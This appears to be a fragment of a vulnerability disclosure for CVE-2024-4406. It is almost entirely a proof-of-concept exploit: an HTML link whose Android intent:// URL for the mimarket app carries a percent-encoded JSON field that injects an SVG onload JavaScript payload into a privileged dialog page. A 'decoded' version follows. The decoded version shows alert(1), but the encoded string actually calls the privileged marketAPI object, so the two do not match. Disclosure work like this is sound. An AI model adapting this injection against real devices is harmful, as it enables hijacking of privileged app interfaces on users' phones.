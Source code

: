 ```
<h1> 
<a id="yayidyay" rel="noreferrer" href="intent://browse?url=file%3A%2F%2Fintegral-dialog-page.html?integralInfo=%7b%22%74%69%74%6c%65%22%3a%22%6c%6f%6f%6b%20%61%74%20%6d%79%20%50%6f%43%21%22%2c%22%74%79%70%65%22%3a%22%79%61%79%74%79%70%65%79%61%79%5c%75%30%30%32%32%5c%75%30%30%33%65%5c%75%30%30%33%63%73%76%67%20%6f%6e%6c%6f%61%64%5c%75%30%30%33%64%5c%75%30%30%32%32%6a%61%76%61%73%63%72%69%70%74%5c%75%30%30%33%61%61%6c%65%72%74%28%27%70%72%69%76%69%6c%65%67%65%64%20%6d%61%72%6b%65%74%41%50%49%3a%20%27%20%2b%20%6d%61%72%6b%65%74%41%50%49%29%5c%75%30%30%32%32%5c%75%30%30%33%65%22%2c%22%73%75%62%74%69%74%6c%65%22%3a%22%62%72%6f%75%67%68%74%20%74%6f%20%79%6f%75%20%62%79%20%4e%43%43%20%47%72%6f%75%70%22%2c%22%74%69%70%73%22%3a%22%61%6c%73%6f%20%50%69%63%68%75%20%69%73%20%61%77%65%73%6f%6d%65%22%2c%22%62%74%6e%54%69%70%73%22%3a%22%79%61%79%65%78%70%6c%6f%69%74%79%61%79%22%7d#Intent;action=android.intent.action.VIEW;scheme=mimarket;end">
        YAYPOCYAY</a>
</h1>
```

Decoded payload value:

```
file://integral-dialog-page.html?integralInfo={"title":"look at my PoC!","type":"yaytypeyay"><svg onload="javascript:alert(1)">","subtitle":"brought to you by NCC Group","tips":"also Pichu is awesome","btnTips":"yayexploityay"}
```

<div align="center">
    <img src="/assets/my_cves/cve-2024-4406_2.png">
</div>
